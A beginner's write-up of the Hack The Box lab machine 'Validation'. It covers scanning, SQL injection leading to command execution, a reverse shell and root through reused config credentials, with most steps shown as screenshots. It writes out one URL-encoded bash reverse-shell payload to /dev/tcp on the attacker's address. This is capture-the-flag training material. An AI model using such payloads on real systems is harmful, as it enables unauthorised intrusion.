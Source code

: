 # Validation

This is my write-up for the machine called **Validation** located at: [https://app.hackthebox.com/machines/Validation](https://app.hackthebox.com/machines/Validation).&#x20;

{% hint style="info" %}
I am a beginner at penetration testing, so I will be referencing the Official Hack The Box Walk-through for this machine.
{% endhint %}

rustscan: rustscan -a 10.10.11.116

![](<../../.gitbook/assets/image (349) (1) (1) (1) (1).png>)

Going to port 80, we see this page:

![](<../../.gitbook/assets/image (338) (1) (1) (1) (1) (1).png>)

On Hack The Box, I got a hint from one of the tags from the machine:

![](<../../.gitbook/assets/image (352) (1) (1) (1) (1) (1).png>)

It seems that I need to run some type of SQL Injection on the page. After trying a bunch of SQL queries, I ended up running an nmap scan on the machine, since according to the walk-through, I had missed a bunch of open ports using rust scan:

![](<../../.gitbook/assets/image (350) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

After I got stuck, I found [this write-up](https://solomon-sec.com/hack-the-box-validation-walkthrough/) that basically made it understand where the vulnerability was:

![](<../../.gitbook/assets/image (345) (1) (1) (1) (1) (1).png>)

I then got the following output:

![](<../../.gitbook/assets/image (342) (1) (1) (1) (1).png>)

This showed me that this is vulnerable to SQL Injection. Viewing the same write-up, I then changed the parameters to then submit to the website:

![](<../../.gitbook/assets/image (351) (1) (1) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (335) (1) (1) (1) (1) (1).png>)

I then got stuck again and then watched [this video](https://youtu.be/dFKsSYVeVbI) that assisted a bit more in the understanding of what I was messing up on. I found out that I had to run the command to get a shell on the system:

![](<../../.gitbook/assets/image (341) (1) (1) (1) (1) (1) (1) (1) (1).png>)

After I ran this command, I was able to run commands on the system:

![](<../../.gitbook/assets/image (328) (1) (1).png>)

Apparently the IP Addresses of the VPN you are using on HTB can change, which was something I did not know. When I ran **ifconfig**, I understood why my reverse shell command was not working when I tried it. In any case, I got the reverse shell by running the following command (recommended by the official write-up and modified to work for me):

`bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.14/1234+0>%261'`

In order to get this to work though, you have to change your request from GET to POST, which can be done by clicking on the button below:

![](<../../.gitbook/assets/image (340) (1) (1) (1) (1) (1) (1).png>)

You can then submit the command, as seen in the image above. After I had the shell, the first thing I did was find the user.txt file:

![](<../../.gitbook/assets/image (344) (1) (1) (1) (1) (1).png>)

I was trying to find a way to upload **linpeas.sh** or get a way to see what access I had, but I ended up getting nowhere. On the official write-up, the credentials I had seen earlier in config.php, were the credentials for the root user:

![](<../../.gitbook/assets/image (329) (1) (1) (1) (1).png>)

I was then able to get the flag using the root access.
